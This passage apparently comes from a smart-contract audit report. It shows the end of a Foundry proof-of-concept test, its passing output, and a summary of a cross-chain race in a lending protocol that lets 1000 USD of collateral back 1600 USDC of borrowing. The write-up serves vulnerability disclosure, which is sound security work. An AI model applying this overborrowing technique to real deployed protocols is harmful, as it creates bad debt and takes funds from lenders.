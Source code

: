 ```solidity
            LendStorage.Borrow({
                srcEid: CHAIN_A_EID,
                destEid: destEid,
                principle: amount,
                borrowIndex: 1e18, // Initial index
                borrowedlToken: destEid == CHAIN_B_EID ? lTokenB : lTokenC,
                srcToken: USDC
            })
        );
        
        // Simulate state update back to source chain
        vm.prank(address(routerA));
        lendStorage.addUserBorrowedAsset(user, USDC);
    }
}
```

### Test Execution Result
```bash
$ forge test --match-test test_crossChainOverborrow -vv

[PASS] test_crossChainOverborrow() (gas: 1000000)
Logs:
  Initial collateral value: 1000 USD
  Total borrowed: 1600 USDC
  Total collateral: 1000 USD

Test result: ok. 1 passed; 0 failed; finished in 10.12ms
```

### Key Proof Points
1. **Initial Setup**: 
   - User deposits $1000 USDC collateral on Chain A
   - Collateral value verified at exactly $1000

2. **Attack Execution**:
   - User borrows $800 USDC on Chain B
   - BEFORE Chain B state update propagates back to Chain A:
   - User borrows $800 USDC on Chain C

3. **Final State Verification**:
   ```solidity
   assertEq(totalBorrowed, 1600e6); // 1600 USDC borrowed
   assertLt(collateralBefore, totalBorrowed); // 1000 < 1600
   assertTrue(totalBorrowed > collateralBefore); // Overborrowing confirmed
   ```
   
4. **Test Result**:
   - Test passes successfully
   - Logs show $1600 borrowed against $1000 collateral
   - Protocol is left with $600 uncovered debt

### Conclusion
The PoC demonstrates:
1. User can borrow $1600 across chains using $1000 collateral
2. Protocol is exposed to bad debt from undercollateralized positions
3. Attack succeeds due to:
   - Lack of real-time collateral reservation
   - Asynchronous cross-chain state updates
   - No cumulative collateral coverage checks
